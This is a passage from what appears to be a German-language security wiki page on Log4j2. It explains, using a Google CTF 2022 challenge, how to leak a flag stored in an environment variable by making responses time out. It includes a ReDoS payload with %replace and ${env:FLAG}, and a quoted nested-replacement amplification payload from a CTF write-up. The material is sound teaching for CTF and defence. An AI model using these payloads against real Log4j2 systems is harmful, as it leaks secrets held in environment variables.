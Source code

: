 Wie im vorherigen Abschnitt erwähnt, unterstützt **`%replace`** **Regex**. Es ist also möglich, Payloads von der [**ReDoS-Seite**](../regular-expression-denial-of-service-redos.md) zu verwenden, um einen **Timeout** auszulösen, falls das Flag gefunden wird.\
Ein Beispiel für eine Payload wie `%replace{${env:FLAG}}{^(?=CTF)((.`_`)`_`)*salt$}{asd}` würde einen **Timeout** in diesem CTF auslösen.

In diesem [**Bericht**](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/) wurde anstelle eines ReDoS-Angriffs ein **Amplifikationsangriff** verwendet, um einen Zeitunterschied in der Antwort zu verursachen:

> ```
> /%replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{${ENV:FLAG}}{CTF\{" + flagGuess + ".*\}}{#############################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> ```
>
> Wenn das Flag mit `flagGuess` beginnt, wird das gesamte Flag durch 29 `#`-Zeichen ersetzt (ich habe dieses Zeichen verwendet, da es wahrscheinlich nicht Teil des Flags ist). **Jedes der resultierenden 29 `#`-Zeichen wird dann durch 54 `#`-Zeichen ersetzt**. Dieser Prozess wird **6 Mal** wiederholt, was zu insgesamt ` 29*54*54^6* =`` `` `**`96816014208`** **`#`-Zeichen führt!**
>
> Das Ersetzen so vieler `#`-Zeichen löst den 10-Sekunden-Timeout der Flask-Anwendung aus, was wiederum dazu führt, dass der HTTP-Statuscode 500 an den Benutzer gesendet wird. (Wenn das Flag nicht mit `flagGuess` beginnt, erhalten wir einen Statuscode, der nicht 500 ist)

## Referenzen

* [https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/)
* [https://www.bleepingcomputer.com/news/security/all-log4j-logback-bugs-we-know-so-far-and-why-you-must-ditch-215/](https://www.bleepingcomputer.com/news/security/all-log4j-logback-bugs-we-know-so-far-and-why-you-must-ditch-215/)
* [https://www.youtube.com/watch?v=XG14EstTgQ4](https://www.youtube.com/watch?v=XG14EstTgQ4)
* [https://tryhackme.com/room/solar](https://tryhackme.com/room/solar)
* [https://www.youtube.com/watch?v=Y8a5nB-vy78](https://www.youtube.com/watch?v=Y8a5nB-vy78)
* [https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)
* [https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/)
* [https://sigflag.at/blog/2022/writeup-googlectf2022-log4j/](https://sigflag.at/blog/2022/writeup-googlectf2022-log4j/)

